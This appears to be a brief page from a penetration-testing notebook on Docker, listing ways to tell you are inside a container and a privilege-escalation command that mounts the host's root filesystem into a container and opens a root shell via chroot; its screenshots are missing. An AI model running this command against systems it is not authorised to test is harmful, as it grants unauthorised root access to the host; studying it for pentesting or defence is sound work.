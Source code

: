# Docker

### Checking for Docker Containers&#x20;

#### 1>Checking for internal network may give signs of a docker container

`$ ip addr`

#### `2>ID command might tell`

![](<../.gitbook/assets/image (8) (1).png>)

### `Exploitation`

#### `Check for the images`

![](<../.gitbook/assets/image (6) (1).png>)

#### `Replace the image`

`docker run -v /:/mnt --rm -it privesc chroot /mnt sh`

![](<../.gitbook/assets/image (10) (1).png>)

